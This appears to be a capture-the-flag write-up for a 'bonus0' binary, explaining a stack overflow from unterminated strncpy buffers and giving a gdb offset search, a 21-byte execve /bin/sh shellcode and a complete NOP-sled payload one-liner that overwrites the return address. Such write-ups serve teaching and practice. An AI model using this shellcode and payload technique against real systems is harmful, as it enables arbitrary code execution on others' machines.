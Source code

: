 # Stack shell code

## Context

The program take 2 input, each input is store inside a 20 byte buffer. Main declare a 54 byte buffer, store on the stack. First input is strcpy inside the and second is strcat. Normaly, this should'nt be vulnerable.

However, this code segfault easely

```bash
./bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� bbbbbbbbbbbbbbbbbbbb���
Segmentation fault (core dumped)
```

function p(), the one who read the input is the problem, it read in a buffer `char local_100c [4104];`, look for \n, replace it with \0 and strncpy inside the 20 byte buffer.

```c
  read(0,local_100c,0x1000);
  pcVar1 = strchr(local_100c,10);
  *pcVar1 = '\0';
  strncpy(param_1,local_100c,0x14);
```

It does this function twice, and the buffer are store next to each other in the stack.

So what happend if i write this "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n" ?

First call of p() func:

```c
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\0"
// but only 20byte are stored
"aaaaaaaaaaaaaaaaaaaa"
//no more '\0'
```

after two call of p() the value in the stack are :

```py
0xffffd288							0x61616161	0x61616161
0xffffd290:	0x61616161	0x61616161	0x61616161	0x62626262
0xffffd2a0:	0x62626262	0x62626262	0x62626262	0x62626262
```

When fist strcopy is call, to copy the first buffer[20] inside the main buffer[54], strcpy stop when it encounters a '\0', you know the one we did avoid.

So it strcpy aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� : 43 byte write inside the buffer. Only 11 more value storable in the stack before overflow.

And we gonna overwrite the return value of the main when it gonna strcat bbbbbbbbbbbbbbbbb at the end of the first buffer.

## Exploit

The idea is to write the shell code in the buffer[4104] and overwritre main pointer to it.

Payload = Nop instruction + shell code (21byte) + feel the first buffer + \n + Offset + address of the shell code + fell the buffer + '\n'.

- Nope instruction to feel the first buffer. I did chooose 100.
- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- Feel the first buffer : read size (4096) - shell code - nope - \n
- '\n' are necessary, because if you forget them it segfault at ```pcVar1 = strchr(local_100c,10);```, if it doesn't find \n, it return null, and next step `*pcVar1 = '\0';` will segfault.
- offset : 9

```c
gef➤  pattern offset 0x65616161
[+] Searching for '61616165'/'65616161' with period=4
[+] Found at offset 9 (little-endian search) likely

 stopped 0x65616161 in ?? (), reason: SIGSEGV
```
- address of the shell code: print the buffer with gdb affter read: buffer address = 0xbfffe5e4

### Payload 

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 100 + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + b"\x90" * 3974 + b"\n" + b"\x90" * 9 + b"\xe4\xe5\xff\xbf" + b"B" * 20 + b"\n")') - | ./bonus0
```